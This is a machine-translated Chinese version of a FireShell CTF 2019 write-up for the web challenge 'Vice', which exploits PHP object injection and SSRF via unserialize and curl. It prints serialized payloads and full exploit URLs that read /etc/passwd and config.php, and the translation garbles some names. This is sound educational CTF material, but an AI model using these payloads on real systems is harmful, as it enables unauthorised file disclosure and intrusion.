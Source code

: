 # 凡世尔 CTF 2019 |网络(副)报道

> 原文：<https://infosecwriteups.com/fireshell-ctf-2019-web-vice-writeup-2deee8d82556?source=collection_archive---------0----------------------->

世界协调时 2019 年 1 月 27 日下午 19:00+2

![](img/b551ac4ae519993a36bca2156cf7f114.png)

凡世尔 CTF 2019 |网络(副)报道

*这是一篇为 web challenge 撰写的文章，曾在*[*FireShell CTF 2019*](https://ctftime.org/event/727)*今天，如果你还不知道，FireShell CTF 是一个巴西赛事，风格危险，友好的初学者。这个提议是为了在一个充满挑战但有趣的环境中测试参与者的黑客技能。*

# 虎钳—**300 分**

**![](img/d056723ed6b6d69d9eebb85b6998bd49.png)**

**副的**

**这个网页任务命名为**副**，根据我解决它时的动态记分牌，是 300 分。**

> ****挑战:** [副](https://github.com/Abdelkad3r/CTF/blob/master/Fireshell%20CTF%202019/WEB/Vice/Challenge.txt)**

**首先，让我们阅读和理解给定的 php 脚本，以了解在这个挑战中需要什么:**

**有一个 GET 参数 **$gg** 可能容易受到一些 php 错误和 bug 的攻击。我试图通过阅读和理解代码来检测错误，并在我的本地主机上进行测试。**

**使用 *unserialize* 函数对该参数进行非序列化，使用一种称为 *__destruct 的神奇方法。***

**所以这可能是 [**PHP 对象注入**](https://www.owasp.org/index.php/PHP_Object_Injection) **，**看看你如何利用这个漏洞，不同的场景和一些有效载荷通过:**

**[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20deserialization/PHP.md) [## swisskyrepo/payloads all things

### Web 应用程序安全和 Pentest/CTF-swisskyrepo/payloads all things 的有用负载和旁路列表

github.com](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20deserialization/PHP.md) 

正如我提到的；当一个对象被删除时，有一个神奇的方法 *__destruct* 将有助于 PHP 对象注入。

```
**function __destruct(){
    if(in_array($this->method,array("doit"))){

      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }**
```

所以我们将使用带有 5 个对象的 *SHITS* 类，其中重要的一个是 *SHITS 方法*，它被称为 *doit* :

```
**function doit(){

    $this->host = @parse_url($this->url)['host'];
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      echo $result;
    }else{
      die(":)");
    }
  }**
```

和 *SHITS url* ，这可能是一种泄漏 **/etc/passwd，**和最后这里是我的有效载荷泄漏 **/etc/passwd** :

```
**O:5:"SHITS":5:
{
s:10:"SHITSurl";
s:18:"file:///etc/passwd";
s:13:"SHITSmethod";
s:4:"doit";
s:11:"SHITSaddr";N;
s:11:"SHITShost";N;
s:11:"SHITSname";N;
}**
```

这是注入的和 URL 编码的有效载荷:

```
[**O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A18%3A%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D**](http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A18%3A%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D)
```

而且这里的/etc/passwd 已经泄露了！

```
[**http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A18%3A%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D**](http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A18%3A%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D)--------------------------------------------------------------------root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: syslog:x:101:104::/home/syslog:/bin/false mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```

现在我们必须继续我们的黑客攻击…目标是我们必须读取标志，根据给定的 php 脚本，标志存储在 config.php 的*中，因为这是必需的。所以让我们试着像泄露 **/etc/passwd** 一样泄露*config.php*。*

*我试着用不同的方法来泄露*config.php*但是没有结果！*

*主要问题是**。php"** 是中经过过滤的扩展名之一，所以不能执行*config.php*:*

*![](img/632932087e6e93717c17d470eef12494.png)*

*过滤扩展*

*经过几个小时的研究，我刚刚发现了一个漏洞，在 *strpos* 函数可能被利用，也许它可以导致绕过这个过滤器，并执行*config.php。**

*这个 bug 叫做 [**Bypass Strpos 验证**](https://bugs.php.net/bug.php?id=76671&edit=1) **，**这是 2018-27-07 提交的 PHP 最新 bug 之一。这个错误更多地与我们向 *strpos()* 发送带编码的字符串有关，当我们发送带双重编码的字符串时，我们能够使用 **%2570hp** 绕过验证，如果情况类似于*strpos(＄string，" php")* 。*

*在这种情况下，我们有 *strpos($this- > url。php")* 所以我们必须使用**双重编码**来绕过这个 *strpos* 验证，以便能够执行*config.php*。实际上，只要对**”进行双重编码就足够了。**为该旁路。*

***的双重编码。**是 **%252e，**还有一个问题是我甚至不知道*config.php*的正确路径，也是在朋友的帮助下才猜出来的，最后是这样:**/var/www/html/config . PHP***

*这是我用来绕过 *strpos* 验证并执行*config.php*的最终有效载荷，然后读取存储在*config.php*脚本中的标志，然后解决这个挑战:*

```
***O:5:"SHITS":5:
{
s:10:"SHITSurl";
s:33:"file:///var/www/html/config%252ephp";
s:13:"SHITSmethod";
s:4:"doit";
s:11:"SHITSaddr";N;
s:11:"SHITShost";N;
s:11:"SHITSname";N;
}***
```

*这是注入的和 URL 编码的有效载荷:*

```
***O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D*** 
```

*而这里是 config.php 已经被处决了！*

```
*[**http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D**](http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D)*
```

*![](img/8cf8291d7e097e836c95150af92533fd.png)*

*config.php 被处决了！*

*然后通过查看 config.php 页面的源代码来阅读国旗:*

*![](img/d3b2f37030d99c7a04ad32bf4279e493.png)*

*查看 config.php 网页的源代码，然后阅读国旗*

*如上图，这里是泄露的*config.php*剧本:*

```
***<?php
if($_SERVER['REMOTE_ADDR'] !== '::1' || $_SERVER['REMOTE_ADDR'] !== '127.0.0.1'){
echo "aaawn";
}else{
$flag ="F#{wtf_5trp0s_}";
}***
```

> *标志是: **F#{wtf_5trp0s_}***

*这是一个很好的网络挑战，我只是和我的朋友和队友一起享受，我要感谢 [*FireShell 团队*](https://ctftime.org/team/25526) 创造了这样一个有趣的任务，也感谢他们组织了这次 CTF。*

*最诚挚的问候，***